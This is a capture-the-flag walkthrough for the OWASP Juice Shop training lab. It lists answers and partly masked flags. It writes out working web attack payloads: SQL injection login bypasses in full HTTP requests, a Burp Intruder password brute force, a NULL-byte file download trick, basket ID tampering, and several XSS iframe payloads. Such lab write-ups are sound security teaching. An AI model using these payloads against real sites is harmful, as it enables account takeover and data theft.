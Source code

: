 # OWASP Juice Shop


- Deploy the VM attached to this task to get started! You can access this machine by using your browser-based machine, or if you're connected through OpenVPN.

	  no answer needed

- Once the machine has loaded, access it by copying and pasting its IP into your browser; if you're using the browser-based machine, paste the machines IP into a browser on that machine.

	  no answer needed

- What's the Administrator's email address?

	- `admin@juice-sh.op`

- What parameter is used for searching? 

	- `q`

- What show does Jim reference in his review?

	- `star trek`

- Log into the administrator account!

	- Perform a login request when Burp is capturing.

	~~~
		POST /rest/user/login HTTP/1.1
		Host: 10.10.122.116
		User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
		Accept: application/json, text/plain, */*
		Accept-Language: en-US,en;q=0.5
		Accept-Encoding: gzip, deflate
		Content-Type: application/json
		Content-Length: 49
		Origin: http://10.10.122.116
		Connection: close
		Referer: http://10.10.122.116/
		Cookie: io=XFm7soxYpXet9JAKAAAA; language=en; cookieconsent_status=dismiss
		{"email":"email@email.org","password":"password"}
	~~~
	
	- We change this request in:
	~~~
		POST /rest/user/login HTTP/1.1
		Host: 10.10.122.116
		User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
		Accept: application/json, text/plain, */*
		Accept-Language: en-US,en;q=0.5
		Accept-Encoding: gzip, deflate
		Content-Type: application/json
		Content-Length: 49
		Origin: http://10.10.122.116
		Connection: close
		Referer: http://10.10.122.116/
		Cookie: io=XFm7soxYpXet9JAKAAAA; language=en; cookieconsent_status=dismiss
		{"email":"' OR 1=1--","password":"password"}
	~~~
	- And forward this request.
	- `32***0f21372b*******608************0e02a`

- Log into the Bender account!

	- Capture another login request or change the previous one to this:
	~~~
		POST /rest/user/login HTTP/1.1
		Host: 10.10.122.116
		User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
		Accept: application/json, text/plain, */*
		Accept-Language: en-US,en;q=0.5
		Accept-Encoding: gzip, deflate
		Content-Type: application/json
		Content-Length: 45
		Origin: http://10.10.122.116
		Connection: close
		Referer: http://10.10.122.116/
		Cookie: io=XFm7soxYpXet9JAKAAAA; language=en; cookieconsent_status=dismiss;
		{"email":"bender@juice-sh.op'--","password":"edededededed"}
	~~~
	- `fb***762a3c*******9320************d4066`

- Bruteforce the Administrator account's password!

	- For the payload, we will be using the best1050.txt from Seclists. (Which can be installed via: `apt-get install seclists`)
	- You can load the list from `/usr/share/seclists/Passwords/Common-Credentials/best1050.txt`
	- Copy another new login request, right click and Send to Intruder.
	- Change the email to `admin@juice-sh.op`.
	- Clear all the `§` symbols and add them only to the password field.
	- Load the list into BurpSuite and Start the Attack.
	- See where request (into the results tab) has `200` as Status.
	- *Tips* On the above bar of results tab you can filter results hiding 3xx, 4xx, and 5xx response code.
	- `***10d06d*******7cd809************f1ac0e`

- Reset Jim's password!

	- Logout
	- Reset Jim's password
	- `094fb***48e52*******7d05************7257`

- Access the Confidential Document!

	- Navigate to the About Us page, and hover over the "Check out our terms of use".
	- The link is `something/ftp/legal.md`
	- The `/ftp/` folder is publicly exposed!
	- Download all the files in that folder.
	- Go to home and access the flag.
	- `edf9*812*******c5fee***************50c5b`

- Log into MC SafeSearch's account!

	- `mc.safesearch@juice-sh.op`, `Mr. N00dles`
	- `66bd*ffad9e6*******003f************5d7f0`

- Download the Backup file!

	- Add the poison NULL byte to the file you would like to download.
	- e.g. `http:<TARGET_IP>/ftp/file.md.bak%2500.md`
	- `b**********579e85*06fee************13795`

- Access the administration page!

	- Open the file `/main-es2015.js`.
	- You will find a path called `administration`.
	- 403
	- Log in as admin.
	- Go to `/administration` and grab the flag.
	- `946*79936********82200************6629a0`

- View another user's shopping basket!

	- Click on `your Basket`. Capture the request with Burp.
	- Capture `GET /rest/basket/1 HTTP/1.1` request.
	- Change the number id from 1 to 2 and forward the request.
	- `41b9*7a36*******4f0ba************ce52121`

- Remove all 5-star reviews!

	- Navigate to the `http://10.10.202.127/#/administration` page again and click the bin icon next to the review with 5 stars!
	- `50c97*cc*******446d61c************2266ef`

- Perform a DOM XSS!
	
	- Input this into the search bar `<iframe src="javascript:alert('xss')">`
	- `9aa*******c30d0*a1f5bb************efe0bf`

- Perform a persistent XSS!

	- Select `Account`, then `Security and Privacy` and then `Last Login IP`.
	- Select `logout` while capturing packets.
	- Add to the request the header `True-Client-IP: <iframe src="javascript:alert(`xss`)">`
	- `149aa*c*******a8a9314***********dc5f156`

- Perform a reflected XSS!

	- Login into the admin account and navigate to the `Order History` page.
	- From there you will see a "Truck" icon, clicking on that will bring you to the track result page. You will also see that there is an id paired with the order.
	- We will use the iframe XSS, <iframe src="javascript:alert(`xss`)">, in the place of the `5267-f73dcd000abcc353`
	- Refresh the page.
	- `23cefe*********9295b261***********60a0`

- Access the /#/score-board/ page

	- `7e***174*****baa03a7************2f72d*6e`
